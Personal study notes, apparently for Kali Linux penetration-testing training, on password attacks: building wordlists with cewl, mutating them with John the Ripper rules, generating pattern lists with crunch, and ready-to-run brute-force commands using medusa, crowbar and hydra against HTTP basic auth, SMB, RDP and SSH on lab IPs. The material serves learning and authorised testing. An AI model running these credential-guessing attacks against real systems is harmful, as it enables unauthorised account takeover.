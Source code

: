 In general many pws under `/usr/share/worklists/`
# commond passwords available in kali
/usr/share/worklists/rockyou.txt

## unzip with
gunzip /usr/share/worklists/rockyou.txt.gz

# dictionary attack
* geneate wordlist by studying website, creates a file which contains works greater than six chars (-m6): `cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt`
* using John the Ripper to mutate the wordlist: `sudo nano /etc/john/john.conf`
We might just add a unique rule for JTR (see adding following text in code): 
```
# Wordlist mode rules
[List.Rules:Wordlist]
# Try words as they are
:
# Lowercase every pure alphanumeric word
-c >3 !?X l Q
# Capitalize every pure alphanumeric word
-c (?a >2 !?X c Q
# Lowercase and pluralize pure alphabetic words
...
# Try the second half of split passwords
-s x_
-s-c x_ M l Q
# [Adding following:]Add two numbers to the end of each password
$[0-9]$[0-9]
```
* run to mutate the list: `john --wordlist=bigTree-cewl.txt --rules --stdout > mutated.txt` 

# Bruteforce wordlists (if you have a specific pw policy)
In contrast to a dictionary attack, a brute force password attack calculates and tests every possible
character combination that could make up a password until the correct one is found

* for example pw policy: `[Capital Letter][2 x lower case letters] [2 x special chars][3 x numeric]`
* check manual for crunch `man crunch` then we might generate random pws with: `crunch 8 8 -t ,@@^^%%%` => will exatly generate as described above
Placeholder Character Translation
```
@ => Lower case alpha characters
, => Upper case alpha characters
% => Numeric characters
^ => Special characters including space
```
* `crunch 4 6 0123456789ABCDEF -o crunch.txt` => create pws with length 4 to 6 with allowed chars "01...EF"

# Bruteforcing different protocolls
`medusa -d` to check with protocols can be bruteforced

## http baseAuth with username and pw
`medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin`

## smb
`medusa -h 192.168.174.10 -u admin -P /usr/share/wordlists/rockyou.txt -M smbnt`

## rdp - Remote Desktop Protocol Attack (windows) with Crowbar
Crowbar, formally known as Levye, is a network authentication cracking tool primarily designed to
leverage SSH keys rather than passwords. It is also one of the few tools that can reliably and
efficiently perform password attacks against the Windows Remote Desktop Protocol (RDP) service
on modern versions of Windows.

To invoke crowbar , we will specify the protocol ( -b ), the target server ( -s ), a username ( -u ), a
wordlist ( -C ), and the number of threads ( -n ) => *rdp just support one thread*
`crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1`

## SSH Attack with THC-Hydra
//using username “root” with a password list on ssh with 4 parallel tasks and verbose
`hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.0.13:22 -t 4 -V`
or: `hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1`
